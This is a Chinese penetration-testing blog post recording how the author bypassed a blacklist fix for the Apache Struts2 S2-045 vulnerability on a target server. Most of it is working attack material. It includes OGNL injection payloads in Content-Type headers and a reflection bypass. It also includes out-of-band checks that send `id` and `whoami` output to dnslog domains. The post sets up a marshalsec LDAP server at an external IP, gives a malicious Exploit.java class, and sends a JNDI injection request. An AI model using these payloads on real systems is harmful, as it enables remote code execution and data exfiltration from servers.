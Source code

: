遇到一个s2-045，扫描器探测poc有回显。用网上的exp打过去却执行不了命令，通过翻阅一些文章发现可能修复方式为黑名单禁止命令执行函数，可通过ldap注入的方式执行命令。特此记录一下。

## 1.poc探测回显

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('check',233*233)}.multipart/form-data
Accept-Encoding: gzip, deflate
Connection: close


```

![1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/记一次s2-045绕过/1.png)

## 2.exp执行失败

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Accept-Encoding: gzip, deflate
Connection: close


```

## 3.进行绕过

根据查看的一篇文章：https://www.sec-in.com/article/550

尝试绕过。



java反射尝试：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#p=Class.forName(new java.lang.String(new byte[]{106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101}))))}.multipart/form-data;
Accept-Encoding: gzip, deflate
Connection: close


```

![1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/记一次s2-045绕过/2.png)

出网判断：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type:%{(#_='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.net.InetAddress@getByName("`id`.qcjfgq.dnslog.cn"))}.multipart/form-data;
Accept-Encoding: gzip, deflate
Connection: close


```

![1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/记一次s2-045绕过/3.png)



## 4.ldap 命令执行

部署ldap服务，命令执行成功。

服务端：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://121.5.40.91:9999/#Exploit" 9998
```

恶意代码：

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "`whoami`.dfkfby.dnslog.cn"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译+起web服务：

```shell
javac Exploit.java
python3 -m http.server 9999
```

发送数据包：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type:%{(#_='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=new com.sun.rowset.JdbcRowSetImpl()).(#a.setDataSourceName("ldap://121.5.40.91:9998/Exploit")).(#a.setAutoCommit(true))}.multipart/form-data
Accept-Encoding: gzip, deflate
Connection: close


```

![image-20210723144610264](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/记一次s2-045绕过/../fastjson原理解析及技巧扩展/24.png)

